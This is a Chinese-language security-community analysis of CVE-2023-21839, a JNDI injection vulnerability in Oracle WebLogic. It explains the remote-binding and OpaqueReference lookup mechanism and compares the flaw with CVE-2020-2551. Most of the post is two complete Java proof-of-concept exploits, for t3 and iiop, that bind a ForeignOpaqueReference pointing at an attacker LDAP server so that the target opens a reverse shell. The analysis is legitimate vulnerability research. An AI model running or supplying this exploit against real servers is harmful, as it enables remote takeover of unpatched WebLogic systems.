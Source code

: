 

# CVE-2023-21839 分析 - 先知社区

CVE-2023-21839 分析



参考：

[https://baijiahao.baidu.com/s?id=1758317868693403050](https://baijiahao.baidu.com/s?id=1758317868693403050)

CVE-2023-21839 是一个 weblogic 的 JNDI 注入漏洞。

> 由于 Weblogic t3/iiop协议支持远程绑定对象bind到服务端，并且可以通过lookup查看，当远程对象继承自OpaqueReference时，lookup查看远程对象，服务端会调用远程对象getReferent方法。weblogic.deployment.jms.ForeignOpaqueReference继承自OpaqueReference并且实现了getReferent方法，并且存在retVal = context.lookup(this.remoteJNDIName) 实现，故可以通过 rmi/ldap 远程协议进行远程命令执行。

## 远程绑定对象

weblogic 的 t3 与 iiop 协议都支持使用 JNDI 来远程绑定对象并 lookup 查询，代码如下：

```bash
// 创建远程对象
MyRemoteObject remoteObject = new MyRemoteObject();
// 获取上下文
Hashtable env = new Hashtable();
env.put(Context.INITIAL_CONTEXT_FACTORY, "weblogic.jndi.WLInitialContextFactory");
env.put(Context.PROVIDER_URL, "t3://<server_ip>:<iiop_port>");
Context ctx = new InitialContext(env);
// 绑定对象到 JNDI
ctx.rebind("myRemoteObject", remoteObject);
// 远程查找对象
MyRemoteObject remoteObj = (MyRemoteObject) ctx.lookup("myRemoteObject");
```

如果想通过 iiop 协议绑定则把代码中的 t3 换成 iiop 即可，需要注意的是，由于在绑定的过程中，数据是序列化传输的，所以这里的 MyRemoteObject 需要实现 Serializable 接口。

CVE-2020-2551 就是利用这种方式，客户端向服务端发送 remoteObject 之后，服务端对其进行反序列化，导致造成反序列化漏洞。

## OpaqueReference

weblogic 中的 OpaqueReference 是一个接口：

[![](assets/1701612521-0500918fcc0425a0ec5a01d249e246c9.png)](https://rns-images.oss-cn-hangzhou.aliyuncs.com/image-20230313170301708.png)

当远程对象继承自 OpaqueReference 时，客户端在对该对象进行 JNDI 查找并获取的时候，服务器端实际上是通过调用远程对象的 getReferent() 方法来获取该对象的实际引用。

## 漏洞分析

分析环境用的是 weblogic 10.3.6.0

漏洞的触发点在 ForeignOpaqueReference.getReferent()

[![](assets/1701612521-4ee75e4e82ecee5c1f1b6575a4a26350.png)](https://rns-images.oss-cn-hangzhou.aliyuncs.com/image-20230313171008938.png)

ForeignOpaqueReference 继承自 OpaqueReference，前面说过，当远程对象继承自 OpaqueReference 时，客户端在对该对象进行 JNDI 查找并获取的时候，服务器端实际上是通过调用远程对象的 getReferent() 方法来获取该对象的实际引用。所以，如果远程绑定了 ForeignOpaqueReference 对象，在 lookup 查询该对象时，就会调用 ForeignOpaqueReference.getReferent()，所以这里我们只要控制 var4 与 this.remoteJNDIName 就能造成 jndi 注入。

this.remoteJNDIName 是一个 private 的属性，可以通过反射的方式进行修改。

[![](assets/1701612521-1a64fcf7b08bc63955a20b4c65401f91.png)](https://rns-images.oss-cn-hangzhou.aliyuncs.com/image-20230313171528816.png)

var4 的话，只要 this.jndiEnvironment 有值，就用 this.jndiEnvironment 的值对 InitialContext 进行初始化，this.jndiEnvironment 也可以使用反射的方式进行赋值。

所以 poc 如下：

依赖：

```bash
<dependency>
    <groupId>weblogic</groupId>
    <artifactId>wlfullclient</artifactId>
    <version>0.1</version>
</dependency>
<dependency>
    <groupId>weblogic</groupId>
    <artifactId>spring</artifactId>
    <version>0.1</version>
</dependency>
<dependency>
    <groupId>weblogic</groupId>
    <artifactId>logging</artifactId>
    <version>0.1</version>
</dependency>
```

```bash
import weblogic.deployment.jms.ForeignOpaqueReference;
import weblogic.iiop.IOPProfile;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.lang.reflect.Field;
import java.util.Hashtable;

public class CVE_2023_21839 {
    public static void main(String[] args) throws Exception {
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";

        // 创建用来远程绑定对象的InitialContext
        String url = "t3://192.168.135.129:7001"; // 目标机器
        Hashtable env1 = new Hashtable();
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env1.put(Context.PROVIDER_URL, url); // 目标
        InitialContext c = new InitialContext(env1);

        // ForeignOpaqueReference的jndiEnvironment属性
        Hashtable env2 = new Hashtable();
        env2.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");

        // ForeignOpaqueReference的jndiEnvironment和remoteJNDIName属性
        ForeignOpaqueReference f = new ForeignOpaqueReference();
        Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");
        jndiEnvironment.setAccessible(true);
        jndiEnvironment.set(f, env2);
        Field remoteJNDIName = ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");
        remoteJNDIName.setAccessible(true);
        String ldap = "ldap://192.168.135.1:1389/Basic/ReverseShell/192.168.135.1/7777";
        remoteJNDIName.set(f, ldap);

        // 远程绑定ForeignOpaqueReference对象
        c.rebind("sectest", f);

        // lookup查询ForeignOpaqueReference对象
        try {
            c.lookup("sectest");
        } catch (Exception e) {
        }
    }
}
```

[![](assets/1701612521-4f7b3efd755a350df38946b223ad6aa5.png)](https://rns-images.oss-cn-hangzhou.aliyuncs.com/image-20230313174359085.png)

如果通过 iiop 协议绑定及查询的话，需要解决 iiop 的 nat 网络问题，需要手动设置 IOPProfile.IP 和 IOPProfile.PORT，完整 poc 如下：

```bash
import weblogic.deployment.jms.ForeignOpaqueReference;
import weblogic.iiop.IOPProfile;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.lang.reflect.Field;
import java.util.Hashtable;

public class CVE_2023_21839 {
    public static void main(String[] args) throws Exception {
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";

        // 创建用来远程绑定对象的InitialContext
        String url = "iiop://192.168.135.129:7001"; // 目标机器
        long TIME_OUT = 15000L; // 超时时间
        Hashtable env1 = new Hashtable();
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env1.put(Context.PROVIDER_URL, url); // 目标
        env1.put("weblogic.jndi.requestTimeout", TIME_OUT + ""); // 超时时间
        IOPProfile.IP = "192.168.135.129"; // 解决iiop协议的nat网络问题
        IOPProfile.PORT = 7001; // 解决iiop协议的nat网络问题
        InitialContext c = new InitialContext(env1);

        // ForeignOpaqueReference的jndiEnvironment属性
        Hashtable env2 = new Hashtable();
        env2.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");

        // ForeignOpaqueReference的jndiEnvironment和remoteJNDIName属性
        ForeignOpaqueReference f = new ForeignOpaqueReference();
        Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");
        jndiEnvironment.setAccessible(true);
        jndiEnvironment.set(f, env2);
        Field remoteJNDIName = ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");
        remoteJNDIName.setAccessible(true);
        String ldap = "ldap://192.168.135.1:1389/Basic/ReverseShell/192.168.135.1/7777";
        remoteJNDIName.set(f, ldap);

        // 远程绑定ForeignOpaqueReference对象
        c.rebind("sectest", f);

        // lookup查询ForeignOpaqueReference对象
        try {
            c.lookup("sectest");
        } catch (Exception e) {
        }
    }
}
```

## 总结

CVE-2023-21839 是一个 weblogic 的 JNDI 注入漏洞。它与 CVE-2020-2551 有些相似，但又不同：

相同点：都利用了 weblogic 的远程 jndi 绑定对象机制，最终都造成了 jndi 注入

不同点：CVE-2020-2551 使用的是 iiop 协议，利用的是 RMI-IIOP 传输数据过程中的序列化与反序列化触发漏洞类与漏洞函数；而 CVE-2023-21839 是通过远程绑定恶意对象后再对其进行查询来调用漏洞函数，使用 t3 或者 iiop 协议均可。
